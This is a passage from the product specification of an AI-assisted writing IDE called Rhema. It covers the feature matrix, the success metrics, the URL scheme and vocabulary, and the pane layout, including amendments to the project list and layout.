| 4 | Showcase project seeded in every workspace | ● | | | 15.3 | research/6 §5.2 |
| 5 | Templates (protocol-shaped starter outlines) | | 1.x | | 5.2 | design/9 §6 |
| 6 | Search across projects/artifacts; archive; duplicate; fork under new voice | ● (search 1.x) | | | 5.2 | design/2 §3.1 |
| **Assistant / chat** | | | | | | |
| 7 | Long-context Assistant with web research; plan card + estimate before research bursts; chat attachments (PDF/docx/md/txt at MVP; images 1.x) | ● | | | 7.1 | ⚑; design/6 §1 |
| 7a | **Research** run (`research_burst`): question → search plan → fetch and note ≤N sources → distilled research note with source cards; the plan card's *Run as background research* and `/research` at MVP | ● | | | 6.2, 7.1 | review 11 #3, 12 #2 |
| 8 | Outline workflow (promote chat → Outline); structured outline editor | ● | | | 7.3 | design/6 §1.7 |
| 9 | Ask about this draft (read-only side questions during runs) | ● | | | 7.4 | design/6 §1.8 |
| 10 | Assistant can prepare any workflow (`start_workflow` → run sheet) | ● | | | 7.2 | design/6 §1.4 |
| **Core loop** | | | | | | |
| 11 | Draft / Review / Revise (ported) | ● | | | 6.2 | ⚑ |
| 12 | Rigor dial (Quick / Standard / Full board) + Advanced toggles | ● | | | 6.5 | design/9 §1.5 |
| 13 | Approvals (approve-with-deadline; Wait for me) | ● | | | 6.4 | Q-7 |
| 14 | Findings UI: anchored comments carrying suggestions; free **Apply** for suggestion-bearing findings; dispositions; **triage mode** with clustering and one-preview bulk; Drafter-proposes-first on large dossiers | ● | | | 5.7 | T2; review 12 #1, #3 |
| 15 | Claim ledger as table with URL per verdict; per-citation "fetched" chip | ● | | | 5.7 | E6 |
| 16 | Second read shown incl. rejected findings | ● | | | 5.7 | research/2 |
| 17 | Rubric view (8 dot scales, caps, no total) | ● | | | 5.7 | rubric.md |
| 18 | Draft diff vN→vN+1 annotated by triage moves (server-side, read-only at MVP); hunk comments → next-round guidance | ● | | | 5.8 | design/2 §8; review 13 F46 |
| 19 | Round timeline with run cards (phase, counters, ETA, spend/cap) | ● | | | 5.5 | design/2 §5 |
| 20 | Run report and round walkthrough (≤200 words, one model call) | ● | | | 5.5 | design/2 §5.6; review 11 #23 |
| 21 | Decisions inbox for standing escalations | ● | | | 5.11 | research/2 C18 |
| 22 | Steering: stop (keep partials), pause at phase boundaries, one note for the next phase, comment on finding (● MVP); section-boundary queued guidance, batched inline comments, edit-plan-mid-run via comments (1.x, after the streaming-input spike) | ● | 1.x | | 6.5 | K5; review 12 #28, 13 F6 |
| 23 | Review keyed by (version, run) (● MVP); parallel protocol variants + compare view (1.x) | ● | 1.x | | 6.2, 7.2 | REQ-WF-6; review 12 #28 |
| 24 | Partial re-review of one section | | 1.x | | 7.2 | C4 |
| 25 | Parallel section drafting | | 1.x | | 7.2 | research/4 §4.5 |
| **Workflows beyond the core loop** | | | | | | |
| 26 | Fact-check · Figure · Outline · Research (● MVP); Cut to length (1.x) | ● | 1.x | | 6.2 | design/9 §2.3; R14 |
| 27 | Line edit · Titles · Abstract · Reverse outline · Interview me | | 1.x | | 6.2 | design/9 §2.3 |
| 28 | Steelman · Map the field · Run rounds (gated) | | 1.x | | 6.2 | design/9 §2.3 |
| 29 | Submission pack; Compose voice UI | | 1.x | | 6.2 | design/9 §2.4 |
| 30 | Peer-review simulation; Literature map; Structured dialogue; Translate register; Repackage; Reader test (reframed) | | | ● | 6.2 | design/9 §2.4 |
| **Genres** | | | | | | |
| 31 | Academic, Essay, Op-ed, Memo protocols; venue tables | ● | | | 6.7 | design/9 §3 |
| 32 | Safe-field protocol editing; standing guidance per project | ● | | | 6.7 | REQ-GENRE-2 |
| 33 | Journalism (review-only), Creative nonfiction, Technical docs | | 1.x | | 6.7 | design/9 §3.5 |
| 34 | Custom protocols / rubric editing; Marketing; Fiction | | | ● | 6.7 | design/9 §3.5 |
| **Editor & documents** | | | | | | |
| 35 | Markdown-backed ProseMirror editor; paper (pinned light by default) in a dark shell; real light theme; two font presets; focus mode; Source mode (1.x) | ● | 1.x | | 5.4, 5.9 | T6, Q-14; R17 |
| 36 | Autosave (four layers), restore points, "unsaved" never exists; Page read-only during writer runs (● MVP); working copy + reconciliation-as-suggestions (1.x) | ● | 1.x | | 5.10 | N1; review 13 F24 |
| 37 | Footnotes; structured citations (CSL-JSON items + cite nodes); BibTeX/CSL-JSON/Zotero import | ● | | | 5.9 | Q-8 |
| 38 | Math (inline/block) | ● | | | 5.9 | H2 |
| 39 | Provenance & authorship legibility (amended v0.3, ≈1.25–2 PM; Q-24 recommendation applied): block-level provenance from transaction origins; **AI-use statement** (per-protocol templates over the REQ-GENRE-5 generator); **block-level provenance appendix** at export (off by default, one toggle); **block-level Authorship overlay** (View menu, Advanced; sidecar decorations, read-only); **span-granularity capture, write-only**, for agent-origin transactions, degrading to block-level `mixed` on any human edit — no span rebasing (● MVP; REQ-POS-6…9). Span-level provenance *marks*, span Authorship overlay, span-granular export (1.x; REQ-POS-10) | ● | 1.x | | 8.4 | research/5 §1.4; review 13 F46; design/17 §2; research/13 §A3 |
| 40 | Figures: spec + data + provenance → SVG; iterate in chat; fact-checked; inserted via a proposal card | ● | | | 7.5 | Q-8, C12 |
| **Voices** | | | | | | |
| 41 | Quick Voice and Full Profile; Approve sample; staleness pill (8 states); one **Update voice** action | ● | | | 9 | J1–J8 |
| 42 | Sample ingestion: upload, paste, URL, Substack (● MVP); Medium/RSS/Ghost/WordPress (1.x) | ● | 1.x | | 9.4 | I1–I4 |
| 43 | Calibration report first tab; exemplars/positions/continuity read-only | ● | | | 9.5 | J6 |
| 44 | Soft-lock after v1; Fork under new voice; Adopt refreshed profile | ● | | | 9.6 | R1 |
| 45 | Composite voices (schema ● MVP; UI 1.x) | schema | UI | | 9.6 | J4 |
| 46 | Platform house styles (openly licensed guides; venue profiles) | | 1.x | | 9.1 | J7 |
| **Export** | | | | | | |
| 47 | Export md / txt / docx / pdf (Typst) / html / rtf | ● | | | 13.4 | Q-9, C15 |
| 48 | Export LaTeX (● MVP); odt / epub / Google Docs via Drive `drive.file` (1.x) | ● | 1.x | | 13.4 | C15; D7 |
| 49 | CSL styles at export: 5 (MVP) → 10 (1.x) | ● | 1.x | | 13.4 | research/5 §2 |
| 50 | "Send to Substack/Ghost/WordPress draft" (still export-only) | | | ● | 13.4 | Q-9 |
| **Billing & usage** | | | | | | |
| 51 | Cent-credits; tiers Free / Writer / Studio / Studio Max; top-ups; one-month rollover | ● | | | 14.2 | research/10 |
| 52 | Pre-run estimate + guaranteed 1.5× cap, metered and enforced at the egress proxy; dollars-first at the decision moment; consent threshold; overage off by default | ● | | | 14.4, 12.7 | research/10 §5.5; review 13 F12 |
| 53 | Usage dashboard: account → project → run → phase × seat; tokens behind Advanced | ● | | | 14.5 | D12, L5 |
| 54 | Budget caps per project; alerts 50/80/100% | ● | | | 14.6 | L6 |
| 55 | Team tier (pooled credits, per-member caps) | | 1.x | | 14.2 | Q-6 |
| 56 | BYO keys (15% platform rate; no cap guarantee) | | 1.1 | | 14.2 | Q-4, L7 |
| 57 | Auto-refund of failed runs | ● | | | 14.4 | L8 |
| **Sharing & collaboration** | | | | | | |
| 58 | Share a dossier read-only by link (never default-shared) | | 1.x | | 11.6 | C13 |
| 59 | Project roles viewer / editor / admin; invite by email | | 1.x | | 11.6 | Q-6, C13 |
| 60 | Human co-reviewer comments merged into the Findings list | | 1.x | | 5.7 | C10 |
| 61 | Org/workspace entity, SSO (WorkOS), spend CSV | | | ● | 13 | L1 |
| **Mobile & notifications** | | | | | | |
| 62 | Email + in-app notifications: run finished, approval waiting, auto-proceeded, voice stale; signed one-click *Wait for me* / *Open* in approval emails | ● | | | 5.11 | D16; review 12 #9, #22 |
| 62a | Phone-width web: gate actions (Approve / Wait for me / Stop), the five dispositions with a note, chat — the same `findings-core` and gate contracts the app will consume | ● | | | 10.1 | review 12 #22 |
| 63 | Mobile app (Expo/RN): read, dispose, approve, chat, notify (1.x); light edits + "run next with defaults" (1.1) | | 1.x | | 10 | Q-18, D19 |
| 64 | Push notifications | | 1.x | | 10.4 | D16 |
| **Platform** | | | | | | |
| 65 | Command palette with workflow verbs and artifact jumps; `/verb` opens a structured row (scope pills, lever chips) — flags accepted, never shown | ● | | | 5.12, 7.2 | D3; review 12 #11 |
| 66 | Keyboard map; feed density Summary / Details (Verbose behind Advanced) | ● | | | 5.12 | research/4 §3.8 |
| 67 | Account: profile, notifications, data export/delete; analytics opt-out | ● | | | 14.7 | Q-12 |
| 68 | Multi-provider models: Anthropic (● MVP); OpenAI/Google for judge/generate/chat phases (1.x) | ● | 1.x | | 12.3 | Q-4, G13 |
| 69 | Scheduling / automations | | | ● | — | research/4 §5 |
| 70 | User-configured MCP/tools; user-attached knowledge corpora per seat | | | ● (maybe never) | 6.6 | research/4 §5; review 11 #34 |
| 71 | Public API | | | ● | — | — |
| 72 | Trial: 14-day reverse trial as an **entitlement** (one Standard Review ≤6,000 words on Base + 150-credit pocket; 3 projects); Free tier with 10-credit daily chat allowance | ● | | | 14.3 | R4 (amended), R5 |
| 73 | Landing page with drop-zone hero, workflow strip, pricing on homepage | ● | | | 15.1 | D15 |
| 74 | English-only (● MVP); localization (later) | ● | | ● | — | Q-17 |
| 75 | Seat profile pages (`/p/:project/agents/*`) | | 1.x | | 6.6 | review 12 #28 |
| 76 | Project tags (1.x); folders and manual ordering never (organisation is by voice, protocol, state and tags only) | | 1.x | | 5.2 | review 11 #35, 12 #29 |
| 77 | Passkeys | | 1.1 | | 13.1 | review 13 F45 |

### 3.3 What "powerful, not impoverished" means (C4)

The founding prompt's next-step-only rule is kept as the *default* and never the *only* path. The product is powerful because [design/6 §2; design/9 §4.3]:

- **Any workflow anywhere.** Every workflow is reachable from the palette, the Assistant, the selection popover and the artifact context menu, with a disabled-reason tooltip when inputs are missing (REQ-PROD-10).
- **Scoped runs.** `/review @section:III`, `/factcheck --tiers 1`, `/cut --target 900`, `/revise @finding:v2/3,v2/9` — scoping turns a $50 button into a $4 one because Review is keyed by (version, run).
- **Parallel variants** (1.x). Two reviews of one version under two protocols, side by side; section-level draft variants with pick-or-merge. Whole-draft variants are refused (one draft, one voice).
- **Phase-subset runs.** Fact-check and Line edit are first-class runs that reuse Review's phase implementations and artifact types (REQ-WF-13).
- **Human gates as first-class objects** with editable decisions, standing guidance, and a Decisions inbox for escalations.
- **"What changed and why"** joining every hunk of vN→vN+1 to the ledger move that caused it.
- **Run rounds** — a criterion-driven convergence loop with hard caps and stall detection.

### 3.4 Argued additions and drops (C6)

| Candidate | Decision | Reason (one line) |
|---|---|---|
| Outline-from-chat | Add (MVP) | The founding prompt's hand-off; a run, so the outline arrives with provenance. |
| Research burst (chat → background research run) | Add (MVP) | The plan card needs a run to hand off to at MVP; Map the field extends it in 1.x (review 12 #2). |
| Steelman pre-write | Add (1.x) | Runs before a draft exists; evidence-bound (REQ-WF-16). |
| Discourse map → Map the field | Add (1.x) | Drafter-seat artifact; the Editor re-derives independently. |
| Convergence loop | Add (1.x), gated, criterion-based | Never "score ≥ X" (rubric bans aggregates); caps are hard. |
| Citation manager | Drop as a manager; add import/export | Do not build Zotero. |
| Plagiarism / self-repetition | Add self-repetition (inside Review); drop plagiarism detection | Continuity findings exist already; external detection is a different product. |
| Reading-time and venue-length meters | Add (MVP) | Trivial; the venue cap makes the meter mean something (REQ-PROD-14). |
| Export to docx/pdf/latex/Substack-md | Add (MVP) | Q-9; Substack-flavoured md is a profile of the md export. |
| Share-to-reviewer link | Add (1.x) | Read-only; never default-shared. |
| Templates | Add (1.x) | Cheap once protocols exist; not needed for activation. |
| Fact-check-only | Add (MVP) | The most legible trial product; the only feature newsrooms permit. |
| Cut to length | Add (1.x) | Well designed, but not on the drop → review → revise path; the over-cap chip offers it once it ships (review 12 #28). |
| Line edit rationed against voice print | Add (1.x) | Differentiator; suggestion-mode only. |
| Reader test / audience simulation | Drop as measurement; later as labeled forecast | Silicon samples fail statistical inference. |
| Peer-review simulation | Later | Presentation over the Academic protocol's dossier. |
| Reverse outline | Add (1.x) | Cheapest structural diagnostic; basis of "what changed and why". |
| Interview me | Add (1.x; MVP-cheap) | The Approve-plan card's "Answer questions" action. |
| AI-use statement + block-level provenance appendix/overlay | Add (MVP; amended v0.3, Q-24 ratified) | Verified integrity primitive, not merely emerging (Substack reader-facing scan + disclosure norm; Grammarly ships Authorship tracking — research/13 §A3); generated from run rows and `provenance_map`; a service, never a gate; span *rendering* stays 1.x (the F46 cost attaches to span maintenance, not statement generation). |
| Persona ethics gating | Drop | Q-11; one-line AUP pass-through. |
| Publishing | Drop | Q-9. |
| Leaderboards / contribution metrics | Drop | Writing is not a lines-of-code sport. |
| Browser / computer-use pane | Drop | The research feed *is* the agent's browser. |
| Safety classifiers on actions | Drop; the spend gate replaces them | The only irreversible actions are spend and overwrite; both are gated. |
| Daily-expiring micro-grant | Add (Free tier, chat only) | R5. |
| Scheduling | Later | Rounds are author-initiated. |

### 3.5 Success metrics (C11)

**North star: pieces accepted per month** — a version marked *Accepted* after at least one Review. (If Q-22 chooses the Review beta, the beta window's north star is the engagement signal **repeat review/revision cycles on important manuscripts** — REQ-BETA-2; "pieces accepted" resumes at public launch. This resolves crosswalk row 13.4 for the beta window only.)

| Stage | Metric | 90-day target (re-base after launch) |
|---|---|---|
| Acquisition | Landing → signup; drop-zone share | ≥ 6% of visits; ≥ 40% of signups via drop-zone |
| Activation (inference-free) | Opened a finding and saw its anchor in the Showcase within 60 s | ≥ 70% of signups |
| Activation (own work) | First own run completed within 24 h | ≥ 45% |
| Value | Round-1 rate (first Revise); round-2 rate (a second Review on v≥2) | ≥ 50%; ≥ 35% |
| Conversion | Trial → Writer/Studio within 14 days | ≥ 10% |
| Retention | Monthly active projects per paying user; 90-day paid retention | ≥ 1.5; ≥ 60% |
| Quality | accept+adapt share of findings; second-read yield; letter thumbs; **benchmark lift vs strong one-shot (REQ-EVAL-15)** | ≥ 55%; measured; measured; measured quarterly¹ |
| Economics | Gross margin per run; credit utilization; p90 actual/estimate; cap-breach rate | ≥ 50%; 55–65%; ≤ 1.3; ≤ 3% |
| Trust | Approval latency; auto-proceed share; cancel rate; boundary-attestation failures | auto-proceed < 40%; cancel < 8%; failures = 0 |
| Voice | Paid users building a voice in month 1 | ≥ 30% |

¹ Benchmark lift is the one metric in this table produced outside product telemetry — it comes from the §18 pre-registered waves, never from in-product data.

The analytics event catalogue (`object.verb` names; every event carries `{user_id, workspace_id, project_id?, run_id?, protocol_id?, tier, surface}`) is design/9 §7.2's, adopted by reference as normative (§0.1) with these additions: `run.estimated` fires from the stateless estimate endpoint (§5.6), `finding.applied` (the free Apply verb, §5.7), `triage.mode_entered`, `gate.presence_timer_shown`, `trial.entitlement_consumed`. Named here: acquisition (`landing.viewed`, `signup.completed`, `showcase.finding_anchor_viewed`, `entry.chosen`), projects, runs (`run.estimated`, `run.launched`, `run.approval_decided`, `run.completed{cost_actual, cost_estimate, cap_hit}`), findings, loop, voice, billing, editor. **REQ-PROD-15:** every run event carries `cost_actual`, `cost_estimate`, and `rigor`; analytics honor the per-account opt-out. **REQ-PROD-16:** the weekly metrics report is generated from the stream; trial grant size and consent threshold are tuned from telemetry, not fixed in code.

---
## 4. Information architecture and navigation

### 4.1 Navigation model

The IA is three levels deep and every level is URL-addressable [design/2 §2]:

```
Workspace (app shell, dark)                       IDE (project scope)
┌───────────────────────────────┐                  ┌──────────────────────────────────┐
│ Rail: Projects · Voices ·     │  open project →  │ Rail (same) + project switcher   │
│       Inbox · Usage · Settings│                  │ Browser │ Page+Margin │ Timeline │
│ Main: list / detail pages     │  ← back          │ Desk (drawer)         Status bar │
└───────────────────────────────┘                  └──────────────────────────────────┘
```

> **ADR-128 (2026-11-05, R7SHELL.1a)** — the Rail's items moved into the AppShell sidebar: Home is
> the sidebar wordmark, the Inbox item carries the badge (approvals + decisions only — unchanged),
> Settings is a sidebar item, and the View menu lives on the status bar. The rail DOM is suppressed
> while the shell hosts the IDE and is deleted by 230_R7PANE.2; REQ-IDE-2's *identical-chrome* and
> *badge-visibility* rules carry onto the sidebar.

- The **Rail** (56 px icon column) is the only persistent global chrome and is identical in both scopes; the Inbox badge (approvals waiting + unread finished runs) is always visible (REQ-IDE-2).
- Workspace pages are lists and detail pages; the IDE is a pane layout. Nothing else exists.
- The persona library is labeled **Voices** everywhere in the product (REQ-PROD-7); its route is `/app/voices` (design/2's `/app/personas` is renamed accordingly).

### 4.2 URL scheme

| Path | Surface |
|---|---|
| `/app` | Projects list (workspace home; default after sign-in) |
| `/app/inbox` | Inbox: approvals waiting, runs finished, voices stale |
| `/app/voices`, `/app/voices/:voice`, `/app/voices/:voice/{description,samples,profile,runs}` | Voices library and detail |
| `/app/usage`, `/app/usage/r/:run` | Usage dashboard; run cost drill-down (redirects to `/p/:project/r/:run#report`) |
| `/app/settings/{account,preferences,notifications,integrations,billing,data,team}` | Settings |
| `/p/:project` | IDE, opens the current draft version with the Timeline at the latest round (`slug-shortid`) |
| `/p/:project/v/:n` · `/p/:project/v/working` | Draft vN on the Page · the editable head |
| `/p/:project/v/:n/diff/:m` | Compare vN → vM |
| `/p/:project/r/:run` · `/p/:project/r/:run/g/:gate` · `/p/:project/r/:run#report` | Run card expanded · the approval card focused (notification deep-link target) · the run report |
| `/p/:project/a/:artifactId` | Any artifact on the Page |
| `/p/:project/f/:findingId` | Page scrolled to the finding, Margin card open (mobile deep link) |
| `/p/:project/chat[/:thread]` | Desk open on chat |
| `/p/:project/agents/{drafter,editor,assistant}` | Seat profile pages (1.x) |
| `/p/:project/usage` | Project usage (level 2) |
| `/p/:project/settings` | Voice link, protocol & venue, approval policy, rigor default, paper theme, standing guidance, tags (1.x) |

Rules: ids are short, immutable and never encode state; pane arrangement is per-user local state, not in the URL; `?focus=1` toggles Focus mode for shareable reading links. **One URL shape for runs and gates everywhere:** `/p/:project/r/:run[/g/:gate]` on the web, `rhema://p/<project>/r/<run>[/g/<gate>]` in the app, `https://rhema.app/p/…` as the universal-link fallback (REQ-MOBILE-9); no surface uses `/runs/` or `/gates/`.

**REQ-IDE-1.** Every project, version, run, approval, finding and artifact has a stable deep-linkable URL; opening one restores the IDE with the target focused and the rest of the layout from the user's last state.

### 4.3 Vocabulary (fixed once)

| Term | Meaning |
|---|---|
| **Project** | The unit of work (never "document"). |
| **Draft vN** | An immutable-once-frozen version; the working head is `vN · draft`. |
| **Round** | One Review + Revise pair. |
| **Timeline** | The round log; also the runs list. |
| **Findings** | The Editor's anchored comments. **Dispositions**: accept / adapt / rebut / defer / escalate. |
| **Obligation** | A durable revision debt spawned by a finding (blocking/major at delivery; minor on accept/adapt), closed only by a verified move, an argued rebut, a horizoned defer, or mooting (§11.7). "Backlog" leaves the vocabulary. |
| **Approval** | A human gate card (approve-with-deadline). Never "gate" or "checkpoint" in the UI. |
| **Rigor** | Quick / Standard / Full board. The one first-class cost lever. |
| **Model tier** | Base / Balanced / Frontier. A *consequence* of Rigor for everyone outside the Advanced disclosure (§6.5); shown under the run sheet's collapsed row, never as a first-class control. |
| **Plan** | Free / Writer / Studio / Studio Max / Team. |
| **View** | The Page's one view menu: Write · Read · Focus (Source in 1.x), with finding cards on/off (§5.1). Replaces the separate "Page mode" and "Margin view" toggles. |
| **Voice** | A persona; "Voice profile", "Quick Voice", "Full Profile". "Persona" survives only in developer docs and IDs. |
| **Unfiled** | A project with no voice. |
| **Showcase project** | The seeded worked example. |
| **Drafter / Editor / Assistant** | The three user-facing seats (§6.6); Persona builder and System are the two non-user-facing seats. |
| **Credit** | 1 credit = $0.01 of Rhema usage; shown as `1,240 credits ($12.40)` in usage surfaces and **dollars-first at the decision moment** ("≈ $5.60 · never more than $8.40"). |

The user holds four choices in their head — **Rigor, Approvals, View, Theme**; everything else is a protocol default, an Advanced disclosure, or a consequence (review 12 #6). **REQ-PROD-6.** Plan names, model-tier names, rigor notches, seat names, and approval names are disjoint vocabularies; **AC:** a lint over the i18n string table against the reserved-strings list in Appendix D. (This is why model tiers are Base/Balanced/Frontier — R7.) **REQ-SPEC-2.** These canonical vocabularies — plans Free / Writer / Studio / Studio Max / Team; model tiers Base / Balanced / Frontier; rigor Quick / Standard / Full board; seats Drafter / Editor / Assistant — are used in every contract enum and every UI string; no synonym survives in code or copy.

---

## 5. IDE UI/UX, surface by surface

### 5.1 Layout: seven named regions

```
┌──┬────────────────┬──────────────────────────────────────────┬───────────────────────┐
│R │ BROWSER        │ PAGE                         │ MARGIN    │ TIMELINE              │
│A │ ▸ Outline      │ ┌──────────────────────────┐ │ ┌───────┐ │ ● Round 2 · running   │
│I │ ▾ Drafts       │ │ The Politics of          │ │ │▲ major│ │   Review of v2        │
│L │   v2 ● current │ │ Visibility               │ │ │ claim │ │   ├ Reading ✓         │
│  │   v1 🔒        │ │                          │ │ │ unsup.│ │   ├ Checking claims   │
│  │ ▾ Rounds       │ │ I. The visible and the   │ │ └───────┘ │   │   23/56           │
│  │   Round 1 ✓    │ │ seen…                    │ │           │   ├ Mapping the field◐│
│  │ ▸ Research     │ │   ~~~~~~~~~~ (finding)   │ │ ┌───────┐ │   └ …                 │
│  │ ▸ Voice        │ │                          │ │ │ minor │ │ ○ Round 1 · done      │
│  │ ▸ Assets       │ └──────────────────────────┘ │ └───────┘ │ ▸ Outline             │
│  │                │  68ch serif column, centred  │           │ [Draft] [Review] [Revise]
├──┴────────────────┴──────────────────────────────┴───────────┴───────────────────────┤
│ DESK ▴  Chat · Live feed · Findings · Claims                                         │
├──────────────────────────────────────────────────────────────────────────────────────┤
│ status: v2 · draft · synced ✓ · 2,146 words · read 9 min · +212 over WaPo · Round 2: 412/1,860 cr │
└──────────────────────────────────────────────────────────────────────────────────────┘
```

| Region | Purpose | Default | Toggle |
|---|---|---|---|
| **Rail** | Global nav, project switcher, Inbox badge | visible | never hides (Focus mode excepted) |
| **Browser** (labelled **Files**) | Typed artifact sections (§5.13) | collapsed to a 36-px icon strip | `⌘1` |
| **Page** | Reading/writing surface for any artifact | always visible | — |
| **Margin** | Finding cards/ticks beside the Page (§5.7) | visible when the open version has findings; ticks-only below 1280 px; clusters above ~30 findings | finding cards on/off inside the View menu |
| **Timeline** | Round log = runs list, approval cards, next-step card, the three verbs | visible | `⌘2` |
| **Desk** | Bottom drawer: Chat · Live feed · Findings list (triage mode) · Claims table | closed; auto-opens on Live feed when a run starts, on Chat for scratch projects | `⌘J` |
| **Status bar** | version · sync pill · word count · reading time · venue-cap meter · live credit meter | visible | — |

Widths at 1440 px: Rail 56 · Browser 240 (open) · Page 660 + Margin 280 · Timeline 320 = 1,556 px, which fits only because the Browser defaults collapsed (36 px → 1,352). **Yield order:** opening the Browser below 1,600 px collapses the Margin to ticks; below 1,600 px the Timeline becomes an overlay (`⌘2`) when the Browser is open; the Timeline is otherwise the last pane to yield. Below 1280 px the Margin collapses to ticks and the Timeline becomes an overlay; below 1024 px the layout is single-column with the Timeline as a sheet; below ~768 px IDE routes render the **phone layout**: reader-only Page plus the sub-paragraph inputs of §10.1 (gate actions, dispositions with a note, chat), and an "Open in the Rhema app" banner **only once the app exists** (REQ-MOBILE-3 amended; ledger row D24; review 12 #22).

**Resizing:** Browser and Timeline have drag handles with snap points; the Page never resizes below 45 ch and never above 80 ch; a drag that would violate this collapses the adjacent pane instead. **Focus mode** (`⌘⇧F`) hides everything but the Page and finding ticks. **View menu** (`⌘⇧M`, one control replacing the former Page-mode and Margin-view toggles — review 12 #6): **Write** (WYSIWYG) · **Read** (typeset; also the print stylesheet) · **Focus**; within Write and Read, *Finding cards* on/off (off = ticks only) and *Show suggestions inline* (the former "Full" view). **Source** (markdown, CodeMirror) joins the menu in 1.x (review 13 F46).

**REQ-IDE-8.** Exactly the seven regions above; Browser and Desk closed by default, Margin only when findings exist; pane state per user per project, restored on reopen. *(2026-11-05 — R7PANE.1 under ADR-128: the region set is now **sidebar | Page | right panel**. The bottom Desk and the right-edge Timeline pane retire into ONE right panel (tabs Chat · Findings · Claims · Timeline · Live feed, bodies moved unchanged); breakpoints and the pane-collapse priority (Files → strip, then the panel → closed, then the Margin → hidden before the Page drops below 45 ch at ≥768) are owned by `paneLayout()` and REQ-PANE-1/2. The historical prose above is superseded, not amended — ADR-128 carries the ruling.)* **REQ-IDE-9.** Page width clamped to [45 ch, 80 ch] with a 68-ch target. **REQ-IDE-10.** Every control is classified Default / On demand / Advanced; Advanced controls are behind a persisted disclosure and never gate a workflow.

**Progressive disclosure:** *Default* — read, write, run the next step, answer an approval (Page, Timeline with next-step card and three verbs, Margin, status bar); *On demand* — anything that inspects or configures (Browser, Desk tabs, claims table, run report, rigor notch, approval policy, diff); *Advanced* — anything that exposes mechanism (raw tokens, model tier and model names, memory file lists, restore points older than today, Verbose feed density, Source mode). Nothing in Advanced is required to complete any workflow; nothing in Default has a cost except the three verbs, which always show an estimate first; the first run of each verb opens a one-time inline explainer card, never a modal tour [design/2 §4.2].

### 5.2 Project list (workspace home)

```
/app                                                  [Search ⌘K]  [+ New project]
┌ Group by: Attention ▾ · Voice: All ▾ · Protocol: All ▾ · Sort: Recent ▾ · ☐ Archived ┐
│ NEEDS YOU (2)
│  ● The Politics of Visibility     v2 · Approve triage · waiting for you        [Open]
│    Voice: S. J. Sebastian · est. 1,240 cr · "12 accept / 4 adapt / 2 escalate proposed"
│  ● Structure of Political Difference   v4 · Review finished · 41 findings, 6 major  [Read]
│ RUNNING (1)
│  ◐ Constitution of Reason   Review of v2 · Checking claims 23/56 · 412 / 1,860 cr · 14 min
│ READY TO READ (1)
│  ○ …
│ QUIET (5)                                                     ▸ collapsed by default
│    Unfiled (3) · S. J. Sebastian (2)
└
```

- **Row = project card:** state icon (animated = running, amber = needs you, green = ready, grey = quiet, red = failed), title, current version, a ≤120-char model-written status line, voice chip (or *Unfiled*) with its staleness pill, and one state-matched primary action.
- **Attention groups** (Needs you / Running / Ready to read / Quiet) mirror what every studied product converged on; "Ready to read" clears when the deliverable is opened. Needs-you rows sort by soonest deadline (REQ-IDE-4).
- **Voice grouping (R2):** `Group by: Voice` is one click away and remembered per user; when chosen, *Unfiled* is the first group and group headers carry the voice's pill and an "N projects use an older profile" count (the workspace-level entry to Adopt refreshed profile). Persona is also the first filter and a chip on every row. If usage shows multi-voice users dominate, the per-user default flips via a setting.
- **Search** (`⌘K`) matches titles, voice, venue, and text inside drafts and letters (server-side index on materialized markdown); full cross-project search ships 1.x.
- **Row actions:** Open · Rename · Duplicate (drafts + outline + voice link; never correspondence; `origin=duplicate`) · Change voice (policy §9.6) · Export… · Archive · Delete (soft, 30 days).
- **Organisation** is by attention state, voice and protocol only at MVP; **tags** (free-form, filterable, a chip on the row) ship in 1.x; folders and manual ordering are never offered — the founding prompt's "re-organize" is served by grouping, filtering, tags, Duplicate and Fork (matrix row 76; departure D11, §16.1).
- **Templates:** MVP ships protocol templates only (Academic article, Essay, Op-ed, Memo); user templates 1.x.

**REQ-IDE-3.** Rows render state, version, summary, voice chip and one primary action; state derives from run/version tables, never stored opinion. **REQ-IDE-6 (amended).** Group-by defaults to Attention; Voice grouping and filtering are available and persisted per user; new projects default to Unfiled. **REQ-PERSONA-21 (amended).** `/app` supports *Group by: Voice* with Unfiled first as the alternate grouping; the design/8 "Flat while ≤1 voice" auto-default is subsumed by the attention default.

> **Amended 2026-11-06 (R7HOME.1 / ADR-128, REQ-HOME-1):** the §5.2 sketch above is superseded —
> the list is now a flat, always-expanded list sorted by last edit (the "Collapsed by default"
> QUIET bucket, the ▸ marker + Show/Hide cues, and the "Unfiled (n) · voiced (m)" sub-line are
> retired). "Waiting on you" and "Running" pin above the flat list only when non-empty; Ready to
> read stays in the list carrying the green dot; "QUIET", "Unfiled" and "Sheet" never render as
> labels (the Voice name renders only when set — Unfiled survives solely as the opt-in
> Group-by: Voice bucket's header and taxonomy concept). Rows keep the status dot (now with a
> legend tooltip), title, version + state, protocol, voice, status line and a last-edited stamp,
> one hover action (Open) and a ⋯ menu; paid menu items show the shared estimator's figure and
> open the run sheet. The toolbar's filters apply instantly (no Apply buttons) and only
> non-default params reach the URL. REQ-IDE-4's collapsed-Quiet affordance and REQ-IDE-6's
> attention grouping read as superseded here; the api still derives the group key.

### 5.3 New-project flow

```
[+ New project]
┌──────────────────────────────────────────────────────────────┐
│  Start from…                                                 │
│  ┌─────────────┐  ┌──────────────┐  ┌──────────────────────┐ │
│  │  Scratch    │  │  An outline  │  │  A draft             │ │
│  │  chat +     │  │  upload/paste│  │  upload/paste .md    │ │
│  │  research   │  │  .md .docx   │  │  .docx .pdf .txt     │ │
│  └─────────────┘  └──────────────┘  └──────────────────────┘ │
│  Title  [__________________]   Protocol [Essay ▾]  Venue [ ] │
│  Voice  [No voice ▾]  (change any time before v1)            │
│                                             [Create]         │
└──────────────────────────────────────────────────────────────┘
```

1. The user picks an entry point; the drop-zone accepts multi-format files (§9.5) and shows a **conversion preview** before Create — the make-or-break moment of the Upload-a-draft path (review 12 #29): the source (pdf.js render or the original text) beside the converted Rhema Markdown, side by side; a count line ("7,900 words · 41 footnotes · 23 citation-like spans · 2 tables · 1 figure"); a warnings list with anchors ("3 footnotes could not be attached — placed at the end of their paragraph", "1 table flattened to text", "N spans could not be converted and are kept verbatim in a `<!-- rhema:unconverted -->` block"); and two actions — **Create and fix later** (default; warnings become a *Conversion notes* card on the Timeline and `[unconverted]` markers in the draft) and **Fix now** (opens the affected block in place). Conversion runs in the `convert` service (§12.1), never in `api`; the preview is free; the quality verdict vocabulary is §9.5's.
2. **Protocol** defaults per REQ-GENRE-4: Essay for Unfiled projects; Academic when the linked voice's structure repertoire records `apparatus: full`; otherwise the sheet asks once. Four protocol cards each show tagline, "what the Editor will hold you to", and a typical cost band; the venue field is a typeahead over the protocol's table with free text allowed; target length prefills from the venue.
